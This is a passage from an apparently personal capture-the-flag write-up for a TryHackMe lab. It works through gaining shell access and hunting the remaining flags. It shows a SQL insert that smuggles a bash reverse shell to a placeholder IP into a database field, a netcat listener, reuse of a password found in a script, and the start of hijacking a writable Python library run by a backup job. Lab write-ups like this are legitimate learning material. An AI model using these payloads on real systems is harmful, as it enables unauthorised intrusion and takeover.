 ```text-plain
INSERT INTO dreams (dreamer, dream) VALUES ("revShell", "$(bash -c 'exec bash -i &>/dev/tcp/<your-local-machine-IP>/<port> <&1')");
```

Be careful when using quotes when passing a string inside a string. Use double quotes inside if used single outside and vice versa.

Start a listener on the port used in the payload.

```text-plain
nc -nlvp <port>
```

After running the sudo command, we were able to obtain the reverse shell as "death". You can now stabilize this shell using your preferred method.

Furthermore, while examining the "getDreams.py" file in the "death" home directory, I discovered a password. Upon using this password to log in via SSH, I was able to successfully gain access. Hence, I now have the password for both users.

![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/d0c526a0-55f8-406b-9b03-cfcd0faee82d)


By rerunning the sudo command, you can use the rev shell multiple times.

Now we can read `death_flag.txt` file

```text-plain
cat death_flag.txt
```

Flag 3
------
Now let's aim forward for the last flag inside the Morpheus directory. We have two readable files inside the Morpheus directory, so let's start enumerating by reading those files.

![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/398b018f-7ff5-4e93-b8ae-6873a227f4c3)


In the restore.py file, the script uses the copy2 function from the `shutil` library to copy the kingdom file to /kingdom_backup/kingdom.

![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/f0a09673-d8db-44e6-9f38-4406e301a10d)


 Additionally, we can read the kingdom file, which contains a single string that says "We saved the kingdom!".

If you recall, user Lucien is also doing something with `shutil` file. After inspecting the files in the death home directory, “.`viminfo` indicates that the user 'death' is also using `shutil` library for something.”

![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/d53c6ba8-e9e7-4ba8-923c-b4c0540501b5)

 
Let's check the `shutil.py` file. If we list the file permissions, we can see that user "death" has permission to read and write. This means we can use this file to do something with the "restore.py" script which is a backup script. Maybe there is a cronjob set for the script to run after a while. 
